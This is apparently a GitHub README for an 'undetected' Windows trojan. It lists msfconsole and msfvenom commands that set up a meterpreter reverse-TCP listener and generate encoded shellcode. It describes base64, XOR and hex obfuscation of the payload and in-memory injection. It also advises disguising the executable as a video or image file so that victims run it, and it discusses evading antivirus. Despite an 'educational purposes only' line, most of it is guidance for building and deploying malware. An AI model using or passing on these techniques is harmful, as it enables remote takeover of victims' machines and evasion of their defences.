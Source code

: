 # Encrypted Trojan with Process Hollowing (Undetected)
Encrypted malware using process hollowing, it creates a shell injecting shellcode which is encrypted using xor, base64 and hexadecimal encoding, undetected by Windows defender. 
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### 1) Listener and payload:
First, on the attacker's machine i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

### 2) Encrypter:

The encryptor takes the shellcode (which in this code is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
- Secondly we apply XOR encryption using a single-byte key;
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 3) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then we copy the shellcode into the newly allocated memory and we make sure that the allocated memory has the correct permissions to execute the shellcode;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/hsav2.png" width="430" />

Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

You can still make it fully undetectable by using other encrypting softwares like Soggoth or Supernova or idk, but at this point just use a much more known rat like xworm.
